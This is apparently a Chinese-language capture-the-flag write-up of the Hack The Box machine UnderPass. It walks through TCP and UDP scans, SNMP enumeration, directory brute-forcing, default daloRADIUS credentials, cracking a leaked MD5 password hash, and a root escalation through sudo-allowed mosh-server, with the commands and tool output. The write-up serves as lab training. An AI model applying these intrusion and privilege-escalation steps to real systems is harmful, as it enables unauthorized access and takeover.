

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/UnderPass  
❯ nmap underpass.htb -sSCV -Pn -T4                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-22 11:26 CST
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.04 seconds
```

`TCP`开放端口：`22`、`80`

尝试进行UDP端口扫描

```
[root@kali] /home/kali/UnderPass  
❯ nmap -sU underpass.htb -T5                                                                                                                  ⏎
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-22 12:50 CST
Warning: 10.10.11.48 giving up on port because retransmission cap hit (2).
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.073s latency).
Not shown: 897 open|filtered udp ports (no-response), 102 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 100.11 seconds
```

`UDP`开放端口：`161`，并且可以看到有个`SNMP`的服务开启

**SNMP**叫做简单网络管理协议，他的通信走的是`UDP`的`161`、`162`。**SNMP**的服务端，也就是信息被查询的被管理端使用的是`UDP`的`161`端口，客户端使用的是`162`端口。

## SNMP-check

```
[root@kali] /home/kali/UnderPass  
❯ snmp-check 10.10.11.48  
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 00:46:13.58
  Uptime system                 : 00:46:04.37
  System date                   : 2024-12-22 04:39:09.0
```

可以看到有`steve@underpass.htb`的用户名，并且存在一个`daloradius`的服务

在其Github中我发现了一个可能存在的路径`/var/www/daloradius`

- [daloradius/Dockerfile at master · lirantal/daloradius (github.com)](https://github.com/lirantal/daloradius/blob/master/Dockerfile)

## Dirsearch

```
[root@kali] /home/kali/UnderPass  
❯ dirsearch -u "http://underpass.htb/daloradius/" -t 50                                                                                       ⏎
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                                         
                                                                                                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/UnderPass/reports/http_underpass.htb/_daloradius__24-12-22_12-58-34.txt

Target: http://underpass.htb/

[12:58:34] Starting: daloradius/                                                                                                                
[12:58:39] 200 - 221B  - /daloradius/.gitignore                            
[12:58:47] 301 - 323B  - /daloradius/app  ->  http://underpass.htb/daloradius/app/
[12:58:49] 200 - 24KB - /daloradius/ChangeLog                             
[12:58:51] 301 - 323B  - /daloradius/doc  ->  http://underpass.htb/daloradius/doc/
[12:58:51] 200 - 2KB - /daloradius/docker-compose.yml
[12:58:51] 200 - 2KB - /daloradius/Dockerfile                            
[12:58:57] 301 - 327B  - /daloradius/library  ->  http://underpass.htb/daloradius/library/
[12:58:57] 200 - 18KB - /daloradius/LICENSE                               
[12:59:04] 200 - 10KB - /daloradius/README.md                             
[12:59:05] 301 - 325B  - /daloradius/setup  ->  http://underpass.htb/daloradius/setup/
                                                                             
Task Completed                                      
```

查看他的`docker-compose.yml`

```
version: "3"

services:

  radius-mysql:
    image: mariadb:10
    container_name: radius-mysql
    restart: unless-stopped
    environment:
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      - MYSQL_ROOT_PASSWORD=radiusrootdbpw
    volumes:
      - "./data/mysql:/var/lib/mysql"

  radius:
    container_name: radius
    build:
      context: .
      dockerfile: Dockerfile-freeradius
    restart: unless-stopped
    depends_on: 
      - radius-mysql
    ports:
      - '1812:1812/udp'
      - '1813:1813/udp'
    environment:
      - MYSQL_HOST=radius-mysql
      - MYSQL_PORT=3306
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      # Optional settings
      - DEFAULT_CLIENT_SECRET=testing123
    volumes:
      - ./data/freeradius:/data
    # If you want to disable debug output, remove the command parameter
    command: -X

  radius-web:
    build: .
    container_name: radius-web
    restart: unless-stopped
    depends_on:
      - radius
      - radius-mysql
    ports:
      - '80:80'
      - '8000:8000'
    environment:
      - MYSQL_HOST=radius-mysql
      - MYSQL_PORT=3306
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      # Optional Settings:
      - DEFAULT_CLIENT_SECRET=testing123
      - DEFAULT_FREERADIUS_SERVER=radius
      - MAIL_SMTPADDR=127.0.0.1
      - MAIL_PORT=25
      - MAIL_FROM=root@daloradius.xdsl.by
      - MAIL_AUTH=

    volumes:
      - ./data/daloradius:/data
```

可以看到存在一些环境信息`environment`

对`app`目录再次进行扫描，得到`login.php`

```
[root@kali] /home/kali/UnderPass  
❯ dirsearch -u "http://underpass.htb/daloradius/app/" -t 50
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                                         
                                                                                                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/UnderPass/reports/http_underpass.htb/_daloradius_app__24-12-22_15-38-14.txt

Target: http://underpass.htb/

[15:38:14] Starting: daloradius/app/                                                                                                            
[15:38:28] 301 - 330B  - /daloradius/app/common  ->  http://underpass.htb/daloradius/app/common/
[15:38:47] 301 - 329B  - /daloradius/app/users  ->  http://underpass.htb/daloradius/app/users/
[15:38:47] 302 - 0B  - /daloradius/app/users/  ->  home-main.php         
[15:38:47] 200 - 2KB - /daloradius/app/users/login.php                   
                                                                             
Task Completed                 
```


然后我在`/daloradius/doc/install/INSTALL`里发现了版本信息以及默认的用户名密码


```
username: administrator
password: radius
```

由于无法直接从`/app/user`进行登录，尝试对`/app`目录进行更全面的扫描，就不用默认的字典了

```
[root@kali] /home/kali/UnderPass  
❯ dirsearch -u "http://underpass.htb/daloradius/app/" -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                                         
                                                                                                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 220545

Output File: /home/kali/UnderPass/reports/http_underpass.htb/_daloradius_app__24-12-22_16-13-23.txt

Target: http://underpass.htb/

[16:13:23] Starting: daloradius/app/                                                                                                            
[16:13:24] 301 - 330B  - /daloradius/app/common  ->  http://underpass.htb/daloradius/app/common/
[16:13:24] 301 - 329B  - /daloradius/app/users  ->  http://underpass.htb/daloradius/app/users/
[16:13:37] 301 - 333B  - /daloradius/app/operators  ->  http://underpass.htb/daloradius/app/operators/
                                                                              
Task Completed                         
```

从`/app/operators`使用默认的密码即可登录到后台


## MD5 Crack

在用户列表中发现`Password`的`MD5`值


使用`John the Ripper`，进行爆破

```
[root@kali] /home/kali/UnderPass  
❯ john md5.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
underwaterfriends (?)     
1g 0:00:00:00 DONE (2024-12-22 16:34) 8.333g/s 24865Kp/s 24865Kc/s 24865KC/s undiamecaiQ..underthecola
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

`ssh`登录拿到`user.txt`


## Privilege Escalation

在数据库中没有找到有价值的东西，上传Linpeas，发现一个特殊权限的命令

```
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d                                                                                            
You have write privileges over /etc/init.d/moshserver                                                                                                                                      
The following files aren't owned by root: /etc/init.d/moshserver

svcMosh@underpass:/var/www/html/daloradius/app/operators$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```


可以看到`--server`这个参数命令默认是`mosh-server`，而当前用户所具有的超级权限的命令也是这个

因此可以通过这个参数连接到自己

```
svcMosh@underpass:/tmp$ mosh --server="sudo /usr/bin/mosh-server" localhost
```



## Summary

`User`：在这个`machine`中，了解到了端口扫描不只是`TCP`，有的服务默认开在`UDP`端口上，通过更全面的路径扫描得到网站的默认用户名密码，然后用户列表信息泄露进行`SSH`登录。

`Root`：用户所具有的超级权限的命令作为`mosh-server`的启动项，进而获取到`Root`的权限。
